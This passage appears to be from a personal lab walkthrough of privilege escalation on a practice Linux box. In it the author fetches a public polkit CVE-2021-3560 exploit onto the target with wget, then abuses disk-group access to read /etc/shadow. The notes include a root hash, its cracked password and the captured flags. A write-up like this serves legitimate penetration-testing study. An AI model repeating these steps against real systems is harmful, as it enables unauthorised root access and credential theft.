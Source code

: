 ## Privilege Escalation vector
- Ran `wget https://raw.githubusercontent.com/UNICORDev/exploit-CVE-2021-3560/refs/heads/main/exploit-CVE-2021-3560.py` to copy exploit onto target
![[Pasted image 20241008165101.png]]
- Ran `python3 exploit-CVE-2021-3560.py -u offsec -p pass` to attempt exploit creating user with credentials `offsec:pass`, then failed to install exploit dependency `gnome-control-center`
![[Pasted image 20241008165258.png]]
- Ignored further investigation of `CVE-2021-3560`, and attempted escalation through `dora` user being member of `disk` group.
- Ran `df -h` to identify available partitions, and identified `/dev/mapper/ubuntu--vg-ubuntu--lv` as likely partition for Ubuntu OS
![[Pasted image 20241008171429.png]]
- Navigated to `/root` and printed `/root/proof.txt`
![[Pasted image 20241008171715.png]]
- Ran `cat /etc/shadow` to print password hashes
![[Pasted image 20241008172041.png]]
- Copied `root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::` into file and cracked hash with `john` for password `explorer`
![[Pasted image 20241008172247.png]]
- Ran `su root` to switch to `root` user with password `explorer`, and ran `ifconfig` to confirm IP address
![[Pasted image 20241008172618.png]]
---
# Trophy & Loot
`local.txt` = `3e1616c5b86c3e113681958a619f6794`
`root.txt` = `61b257ef0bcf2110b8c0622b32238ae9`